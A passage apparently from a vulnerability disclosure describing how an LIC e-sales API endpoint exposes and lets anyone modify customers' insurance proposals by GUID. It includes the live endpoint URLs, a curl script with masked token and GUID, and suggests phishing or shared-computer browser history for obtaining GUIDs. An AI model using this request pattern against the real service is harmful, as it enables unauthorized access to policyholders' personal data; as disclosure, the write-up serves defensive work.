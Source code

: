 ### 6. GetQuoteDetailByNumberPost

This API allowed reading and modifying an ongoing proposal by its opportunityId GUID. The GUID can be obtained from browser history on a shared computer, or by social engineering/ phishing.

```text
https://esales.licindia.com/lifeCustomerProposals?OpportunityId=$$$$$$$$-$$$$-$$$$-$$$$-$$$$$$$$$$$$
https://esales.licindia.com/LifePostPayment?OpportunityId=$$$$$$$$-$$$$-$$$$-$$$$-$$$$$$$$$$$$
```

The underlying API and response is as follows.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
timestamp=$(date '+%F_%T')
curl 'https://digiapi.licindia.in/api/Quotation/GetQuoteDetailByNumberPost' \
  -X POST \
  -H 'Authorization: Bearer encrypted_JWT' \
  -H 'appId: $$$$$$$$-$$$$-$$$$-$$$$-$$$$$$$$$$$$' \
  --data-raw '{"QuoteNo":null,"GUID":"$$$$$$$$-$$$$-$$$$-$$$$-$$$$$$$$$$$$"}' \
  -o "output_${timestamp}.json"
```

<details><summary>Sample response</summary></details>
